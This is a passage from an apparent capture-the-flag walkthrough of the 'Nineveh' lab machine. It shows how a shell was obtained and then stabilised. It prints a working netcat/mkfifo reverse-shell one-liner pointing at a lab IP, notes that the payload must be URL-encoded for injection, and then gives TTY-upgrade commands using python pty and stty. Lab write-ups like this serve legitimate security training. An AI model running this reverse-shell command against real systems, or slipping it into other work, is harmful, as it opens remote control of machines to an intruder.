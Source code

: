 
```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 443 >/tmp/f
```

it’s important to url encode  or they will be interpreted as starting a new parameter. I get a shell 

![](/Linux/Linux-Medium/Nineveh/Screenshots/shellget.png)

## Takeover
 After geting the reverse shell we have to do some adjusment to our reverse shell to make it ready for using by doing a stty escalation to get an interactive shell:
#### code-stty
 ```bash
 python3 -c 'import pty;pty.spawn("/bin/bash")'
 [ctrl] + z
 stty raw -echo ; fg
 ```

```sh
export TERM=screen-256color
export SHELL=bash
stty rows 29 cols 135
reset
```

to check for colums and rows in you machine run

```sh
stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
```

![](/Linux/Linux-Medium/Nineveh/Screenshots/stty.png)
